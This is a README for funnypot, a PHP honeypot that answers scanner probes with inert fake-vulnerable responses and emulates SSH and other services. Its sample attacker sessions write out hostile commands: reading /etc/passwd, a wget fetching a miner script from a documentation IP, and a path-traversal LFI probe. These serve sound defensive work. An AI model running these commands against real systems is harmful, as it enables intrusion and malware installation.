


# funnypot 🍯

[](LICENSE)
[](composer.json)
[](#how-it-works-compile-once-serve-forever)

**A honeypot that answers a scanner's probe with the fake-vulnerable response it was fishing for.**
funnypot is the _inverse_ of a [nuclei](https://github.com/projectdiscovery/nuclei) scanner: instead of
sending a probe and reading the reply to decide "this host is vulnerable", it reads an incoming probe and
_writes the reply that satisfies the scanner's own matcher_. The scanner walks away with a fat,
coherent, completely wrong vulnerability report while you log every move.

You can use it two ways:

1. **As a Composer package**: `bobbymaher/funnypot`, PHP ≥ 8.0, runtime is pure PHP (no YAML,
   no extensions, no network). Drop it into a Laravel or any PSR-15 app and its 404s / suspicious
   requests start answering scanners with believable decoys. Inert by default (detect-only);
   the respond mode is opt-in and gated by your own suspicion signal.

2. **As a standalone honeypot** (Docker, [`demo/`](demo/)): the same HTTP-inversion engine across
   ~46 web ports plus 18 TCP service emulators: a pure-PHP interactive SSH server and a
   telnet fake shell (every command logged, never executed), plus redis, ftp, smtp, mysql,
   postgres, mongodb, modbus and more. Ships with a live dashboard (world map, top talkers) and an
   admin panel to toggle exactly which vulns and services it emulates.

> Defensive deception for your own infrastructure. Every fake is inert (`example.com` hosts,
> RFC-5737 documentation IPs, obviously-fake secrets). Never a real or working credential.

---

## Dashboard

The standalone honeypot streams every hit onto a live dashboard: HTTP probes and
SSH/telnet/redis and other connections, with top talkers, templates fired, hourly activity and a
GeoIP attacker map.



An admin panel exposes the **emulation catalog**: one toggle per capability, so an operator decides
exactly which CVEs, attack classes and services this box pretends to be.



---

## The idea: turn a detection template into a matching fake

A nuclei template is a recipe for _detecting_ a vulnerability: "send this request, and if the response
contains these tokens / this status / this size, it's vulnerable." funnypot compiles the upstream
[nuclei-templates](https://github.com/projectdiscovery/nuclei-templates) corpus and inverts each
recipe into a response that satisfies its matcher. From 11,196 HTTP templates it indexes roughly
6,300 invertible ones into about 5,100 `(method, path)` route personas.

Template inversion is the core, but funnypot does more than mirror nuclei. It is a full deception
layer. It also emulates attack classes (LFI, SQLi, RCE, SSTI, XSS, shellshock, Struts OGNL and more)
on _any_ endpoint, serves product decoys (exposed `.git/config`, `.env`, `phpinfo`, `wp-config`, admin
panels and more), and, in standalone mode, stands up TCP service honeypots that hold a real
conversation.

## Feature highlights

| Capability | What it does |
|---|---|
| **Nuclei inversion** | ~6,300 templates compiled into route personas; a scanner's own matcher is satisfied by an inert fake. |
| **Attack-class emulators** (31) | Reflect LFI / SQLi / command-injection / SSTI / XXE / shellshock / Struts-OGNL / open-redirect / reflected-XSS / IMDS on any path, with canned, inert markers (`root:x:0:0…`, `uid=0(root)…`). |
| **Product / route decoys** (26) | Believable `.git/config`, `.env`, `xmlrpc`, `wp-config`, `phpinfo`, `.htpasswd`, `server-status`, `package.json`, SSH keys, SQL dumps, phpMyAdmin, Tomcat manager and more. |
| **Pure-PHP SSH-2.0 server** | Real curve25519-sha256 key exchange, ed25519 host key, aes256-ctr + hmac-sha2-256 transport, with no libssh and no OpenSSH. Accept-all auth drops the attacker into a Cowrie-style fake shell with decoy files. |
| **TCP protocol emulators** (18) | ssh, telnet, redis, ftp, smtp, memcached, pop3, imap, finger, vnc, rsync, clamav, zookeeper, mysql, postgres, mongodb, modbus, ethernet-ip. Every command logged, nothing executed. |
| **Emulation catalog** | Auto-registering list of every capability; a sparse JSON overlay (or the dashboard) toggles each on/off. |
| **Anti-fingerprint** | One coherent product persona per attacker (deterministic, spoof-proof seed) instead of an impossible "vulnerable to everything" host; per-host self-signed certs; consistent `X-Powered-By`; tamper-evident honeytoken cookie. |
| **Runtime is PHP-only** | Serves from a frozen PHP array via one O(1) lookup; `symfony/yaml` is a compile-time dev tool only. |

---

## Quick start A: the Composer package

```bash
composer require bobbymaher/funnypot
```

**Detect mode is always safe.** It never writes to the wire, it just tells you a request is a known
scanner probe:

```php
use Funnypot\Honeypot;
use Funnypot\RequestContext;

$funnypot = Honeypot::default();                       // inert: detect-only, gate closed

$detection = $funnypot->detect(RequestContext::fromGlobals());
if ($detection->matched) {
    // feed your abuse scoring / rate limiter / ban list
    logScannerProbe($detection->templateIds(), $detection->highestSeverity, $detection->tags());
}
```

**Respond mode (the honeypot itself) is opt-in and gated by your app:**

```php
use Funnypot\Config;
use Funnypot\Honeypot;
use Funnypot\RequestContext;
use Funnypot\Http\ResponseEmitter;

$funnypot = Honeypot::default(new Config(
    mode: 'respond',
    gate: fn (RequestContext $r) => isSuspicious($r),   // your suspicion predicate; null = closed
    responseStyle: 'realistic',                          // minimal | realistic | taunt
    attackEmulation: true,                               // also reflect LFI/SQLi/… on any path
));

$response = $funnypot->respond(RequestContext::fromGlobals());
if ($response !== null) {
    ResponseEmitter::emit($response);   // a matched probe → an inert fake
    exit;
}
// else: nothing matched - serve your normal 404
```

### Laravel: send 404s to funnypot

The service provider (`Funnypot\Laravel\FunnypotServiceProvider`) auto-registers. Publish the config,
then route your 404 path through the engine, falling back to your existing 404 whenever funnypot has
nothing to say:

```php
// app/Exceptions/Handler.php - render(), on a NotFoundHttpException
use Funnypot\Engine;
use Funnypot\Http\Responder;
use Funnypot\Laravel\LaravelRequestMapper;
use Funnypot\Laravel\LaravelResponseMapper;

$context   = LaravelRequestMapper::map($request);
$synthesized = Responder::forRequest(app(Engine::class), $context);
if ($synthesized !== null) {
    return LaravelResponseMapper::map($synthesized);
}
// else fall through to your normal 404 view
```

The published `config/funnypot.php` defaults to `mode = detect` (inert). Start detect-only, watch the
logs, then flip `mode = respond` and supply a `gate`. Full drop-in:
[`examples/laravel-exception-handler.php`](examples/laravel-exception-handler.php); step-by-step
rollout: [`docs/INTEGRATION.md`](docs/INTEGRATION.md). A PSR-15 middleware
(`Funnypot\Http\HoneypotMiddleware`) is available for non-Laravel apps.

## Quick start B: the standalone honeypot (Docker)

The [`demo/`](demo/) directory is a complete front controller: a welcome homepage + live dashboard at
`/`, and every other request run through the engine and logged. The Docker image runs nginx + php-fpm
across ~46 web ports and launches all 18 TCP listeners.

```bash
# compose
cd demo && docker compose up --build

# or plain docker
docker build -f demo/Dockerfile -t funnypot . && docker run --rm \
  -p 80:80 -p 443:443 -p 8080:8080 -p 2222:2222 funnypot

# or no docker (dev poke only - single-process, don't point a real scanner at it)
php -S 0.0.0.0:8080 -t demo demo/index.php
```

Open <http://localhost:8080> for the dashboard, then act like an attacker: point a scanner, curl, or an
`ssh`/`telnet` client at it and watch the hits land. Deployment helpers live in
[`scripts/deploy.sh`](scripts/deploy.sh); details in [`demo/README.md`](demo/README.md).

---

## What an attacker sees

**An SSH session.** The pure-PHP SSH server terminates the real crypto handshake, accepts any
password, and drops into a fake shell. Every command is logged; **none is ever executed**:

```console
$ ssh -p 2222 root@honeypot.example
root@honeypot.example's password:              # any password is accepted
Last login: Mon Aug 18 09:14:02 2026 from 10.0.0.1
root@web01:~# whoami
root
root@web01:~# uname -a
Linux web01 5.15.0-91-generic #101-Ubuntu SMP Tue Nov 14 13:30:08 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
root@web01:~# cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
root@web01:~# wget http://203.0.113.9/miner.sh     # URL logged as intel - the file is NEVER fetched
--2026-08-18 09:14:31--  http://203.0.113.9/miner.sh
Resolving 203.0.113.9... 93.184.216.34
Connecting to 203.0.113.9|93.184.216.34|:80... connected.
HTTP request sent, awaiting response... 200 OK
root@web01:~# exit
logout
```

**A web scanner / curl.** A probe for an exposed git repo and an LFI attempt, both answered with an
inert fake (no file is ever read):

```console
$ curl -s http://honeypot.example/.git/config
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
[remote "origin"]
	url = https://git.example.com/internal/platform.git
	fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
	remote = origin
	merge = refs/heads/main

$ curl -s 'http://honeypot.example/index.php?page=../../../../etc/passwd'
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
```

Run a whole scan against it and dozens of "findings" light up on the dashboard:
`nuclei -u http://localhost:8080 -t http/exposures/`.

## Response styles

Set at init with `responseStyle` (or `FUNNYPOT_STYLE` in the demo):

| Style | What the attacker gets |
|---|---|
| `minimal` | Just the tokens the matcher needs. Smallest; the package default. |
| `realistic` | A believable fake: a full `.git/config`, a plausible `.env`, a real XML-RPC `methodResponse`. All values inert. The demo default. |
| `taunt` | Still satisfies the scanner (time still wasted) and carries a visible "honeypot - your scan was logged" marker. |

Fuller content is produced by endpoint emulators and validated against the matcher before use. If a
fuller body wouldn't satisfy the scanner it silently falls back to minimal, so the extra detail can
never break the guarantee.

## The emulation catalog

Every capability funnypot can emulate (attack classes, product decoys, protocol services, the nuclei
corpus) is enumerated in a derived, auto-registering catalog. Operators control it through a sparse
JSON overlay (`funnypot-vulns.json`) or the dashboard's toggle panel; only deviations from a
capability's default need to be recorded, so a newly-added template shows up automatically at its
declared default:

```json
{ "version": 1, "vulns": { "attack-cmdi-unix": false, "service-telnet": false, "nuclei-reflection": true } }
```

A disabled service doesn't bind; a disabled attack rule is skipped; `nuclei-reflection` off drops
all nuclei-derived fakes. See [`docs/EMULATION-CATALOG.md`](docs/EMULATION-CATALOG.md).

## How it works (compile once, serve forever)

```
        BUILD-TIME (CI, needs symfony/yaml)          RUNTIME (your app, PHP only)
  nuclei-templates/*.yaml                          incoming request
        │  parse + invert matchers                        │  one hash probe
        │  group by (method, path)                        ▼
        │  merge into coherent personas            route → persona bundle
        ▼                                                 │
  resources/compiled/nuclei-index.full.php  ─────────────┴─→ detect() or respond()
        (a plain PHP array, opcache-friendly)
```

The app never parses YAML at runtime. Templates are compiled once into frozen PHP arrays
(`resources/compiled/*.php`), loaded into opcache shared memory, and served with a single O(1) lookup;
a miss returns `null` so your app serves its own 404. `symfony/yaml` is needed only by the compiler
(`bin/funnypot compile`), which CI runs weekly against the latest nuclei-templates release, re-runs the
real-nuclei golden test, and opens a PR only if it still passes. See [`SPEC.md`](SPEC.md) and
[`docs/PERSONA-CAP.md`](docs/PERSONA-CAP.md).

## Safety & invariants

funnypot is built so it can only ever _mislead_ an attacker, never help one.

- **Emulate output, never execute input.** The fake shell is a lookup table: no `exec` / `proc_open` /
  `eval`, no real filesystem, no outbound socket. `wget`/`curl` return canned text and the URL is logged,
  never fetched.
- **Reflect, never harm.** No decompression bombs (decoy archives are bounded, a few KB), no retaliation,
  no outbound requests, all responses size-capped (`maxBodyBytes`, default 64 KB).
- **Never reflects attacker input**, never deserializes a request body; every synthesized header is
  CRLF/NUL-safe.
- **Inert by default.** A fresh package install is detect-only with the gate closed, so zero bytes on the
  wire until you opt in. A layered gate chain then guards respond mode, in order: kill switch, mode,
  trusted bypass (your own scanners see the _real_ posture), suspicion gate, severity ceiling, coherent
  persona, body-size cap.
- **Coherent personas.** One believable host per attacker, deterministically seeded, not an impossible
  "vulnerable to everything" fingerprint a real analyst would spot.
- **Inert fakes only.** `example.com` hosts, RFC-5737 IPs, obviously-fake keys and hashes. Never a real
  or working secret.

## Testing

```bash
composer install
vendor/bin/phpunit                 # the full unit + compiler suite (200+ tests)
bash tests/acceptance/run.sh       # real nuclei (Docker) vs a php -S server (golden test)
```

## Docs

- [`SPEC.md`](SPEC.md): the full design and inversion rules.
- [`docs/INTEGRATION.md`](docs/INTEGRATION.md): wiring funnypot into a host Laravel app.
- [`docs/EMULATION-CATALOG.md`](docs/EMULATION-CATALOG.md): the configurable capability surface.
- [`docs/PROTOCOL-HONEYPOT-PLAN.md`](docs/PROTOCOL-HONEYPOT-PLAN.md): the TCP service emulators + SSH server.
- [`docs/PERSONA-CAP.md`](docs/PERSONA-CAP.md): how personas stay coherent at scale.
- [`demo/README.md`](demo/README.md): running the standalone honeypot.

## Licence

MIT. See [LICENSE](LICENSE). Derived in part from
[projectdiscovery/nuclei-templates](https://github.com/projectdiscovery/nuclei-templates)
(MIT, © 2025 ProjectDiscovery, Inc.); the upstream notice is retained at
[`resources/UPSTREAM-LICENSE.md`](resources/UPSTREAM-LICENSE.md).
